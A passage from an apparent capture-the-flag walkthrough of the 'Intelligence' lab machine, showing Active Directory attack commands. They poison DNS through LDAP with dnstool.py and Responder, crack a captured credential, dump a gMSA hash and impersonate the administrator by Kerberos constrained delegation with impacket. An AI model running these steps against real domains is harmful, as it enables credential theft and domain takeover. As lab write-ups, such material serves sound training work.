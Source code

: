 So we shall inject out ip as a dns record using ldap.
I used [dnstoo.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py)

and then I set up  `responder` to get the hash

`./dnstool.py -u "10.10.10.248\Tiffany.Molina" -p "NewIntelligenceCorpUser9876" 10.10.10.248  -a add  -d 10.10.14.24 -r web.intelligence.htb `


{{< figure src="images/7.png">}}

And the hash

{{< figure src="images/8.png">}}

CRACKED!

{{< figure src="images/9.png">}}

CREDENTIALS: `TED.GRAVES:Mr.Teddy`

---

#### Read GMSA Password

`python3 gMSADumper.py -u "TED.GRAVES" -p "Mr.Teddy" -d intelligence.htb`

{{< figure src="images/10.png">}}

`svc_int$:::5e47bac787e5e1970cf9acdb5b316239`

Now we have the hash of `svc_int$`

#### Constrained Delegation Exploitation

Following this [article](http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)

{{< figure src="images/11.png">}}



`impacket-GetUserSPNs "intelligence.htb/svc_int$" -request-user UNCONSTRAINED_USER -hashes :5e47bac787e5e1970cf9acdb5b316239`
{{< figure src="images/12.png">}}

That step was done to check if it had *unconstrained delegation!*

#### Constrained Delegation User Impersonation

`impacket-getST -spn www/dc.intelligence.htb -impersonate administrator intelligence.htb/svc_int$ -hashes :5e47bac787e5e1970c
f9acdb5b316239`

The above command makes an cache of the ticket similar to the article

{{< figure src="images/13.png">}}


And then I import the kerberos TGT ticket

Finally I ll use `secretsdump.py` 
